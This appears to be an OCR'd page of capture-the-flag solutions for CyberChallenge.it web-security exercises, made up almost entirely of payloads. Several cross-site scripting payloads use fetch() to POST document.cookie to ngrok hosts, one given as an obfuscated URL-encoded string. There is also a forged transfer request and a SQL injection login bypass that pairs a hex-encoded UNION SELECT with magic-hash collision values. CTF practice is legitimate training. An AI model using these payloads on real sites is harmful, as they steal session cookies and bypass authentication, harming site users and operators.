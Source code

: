 \section{WS_3.04 - XSS Simple 4}
\texttt{<body onload="fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});"> asasdf </body>}

\section{WS_3.05 - XSS Simple 5}
\texttt{\%0Afetch(\%60https\%3A\%2F\%2F<your-token>.ngrok-free.app\%60\%2C\%20\%7Bmethod\%3A\%60POST\%60\%2C\%20body\%3Adocument.cookie\%7D)\%3B\%2F\%2F}

\section{WS_3.06 - Buy me a flag pls}
\texttt{http://buyflag.challs.cyberchallenge.it/doTransfer.php?to=2136&amount=10}

\section{WS_3.07 - jpasta}
\texttt{\x3cscript\x3efetch\x22https://7f4f-109-54-123-152.ngrok-free.app/test,\x7bmethod:\x22POST,body:document.cookie\x7d\x3c/script\x3e}

\section{J20_WS_2.01 - jacksecurity}
Solution: PHP "hash collision"

See: https://github.com/spaze/hashes/blob/master/sha1.md

MD5: 240610708; SHA-1: aaroZmOk.

\texttt{' UNION SELECT '24061','0708' # } --to-hex--> \texttt{2720554e494f4e2053454c45435420273234303631272c273037303827202320}

User: \texttt{\' UNION SELECT 0x2720554e494f4e2053454c45435420273234303631272c273037303827202320 # } \\
Pass: \texttt{aaroZmOk}